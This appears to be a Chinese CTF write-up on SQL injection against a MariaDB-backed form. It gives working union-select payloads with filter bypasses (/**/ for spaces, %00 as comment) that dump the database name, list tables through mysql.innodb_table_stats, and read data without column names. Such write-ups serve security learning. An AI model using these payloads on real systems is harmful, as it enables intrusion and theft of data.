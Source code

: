 # 考察知识点：

# 1.无列名注入

# 2.基于MariaDB的SQL注入



1. 经过不断尝试发现不是xss，而是sql注入

![](images/CCC31A50C1884CE28D5E6E2A351BA2AFclipboard.png)



2.发现过滤了or,and,空格，#，--+。

控股个可以使用/**/代替，注释符可以使用%00代替



3.使用union/**/select联合注入，判断列数

发现存在22列

```javascript
title=-2'union/**/select/**/null,null,null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null;%00
```

发现数据库版本为：



4.爆库

```javascript
title=-2'union/**/select/**/null,database(),null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null;%00
```



5.爆表

但是or被过滤，导致information.schema不可以使用，但是发现数据库版本为：

![](images/978F3C2712F6461794D01982A54DDA0Bclipboard.png)

使用 innodb 存储引擎

在Mysql>5.6版本中，innodb增添了两个新表：innodb_index_stats、innodb_table_stats。

两个表都会存储数据库和对应的数据表，唯一与information_schema不同的是它没有列名。

- sys 数据库

Mysql>5.7时，新增了sys数据库，基础数据来自于performance_chema和information_schema两个库，但是本身数据库不存储数据。

而且值得一提的是 MySQL 好像是默认关闭 innodb 数据库的，所以这也是一种新思路。

sys 有一些有用的表：

| 表名 | 作用 |
| - | - |
| schema\_auto\_increment\_columns | 只会显示有自增的表 |
| schema\_table\_statistics\_with\_buffer | 全部显示 |
| x$schema\_table\_statistics\_with\_buffer | 全部显示 |


但是需要用户是 root 权限才能查看 sys 数据库，所以要先看一下 user()是不是 root。

3、查看表名

因为用户权限是root，所以可以使用sys数据库。但是mariaDB数据库中没有sys数据库。

![](images/B9DBCA3E506C43BDACE1DB908F71A25CQ1zBSxLHVMCb.png)



所以使用mysql数据库中的innodb_table_stats表。



```javascript
title=-2'union/**/select/**/null,(select/**/group_concat(table_name)/**/
from/**/mysql.innodb_table_stats),null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null;%00
```



![](images/32BF24F12BB54886BC68F86EEE9A91D5clipboard.png)



6.此时已经知道了表名，但是不知道列名，可以考虑无列名注入

无列名注入：

https://www.jianshu.com/p/6eba3370cfab

```javascript
title=-2'union/**/select/**/null,(select/**/group_concat(b)/**/from/**/
(select/**/1,2/**/as/**/a,3/**/as/**/b/**/union/**/select*from/**/users)ll))
,null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null;%00
```







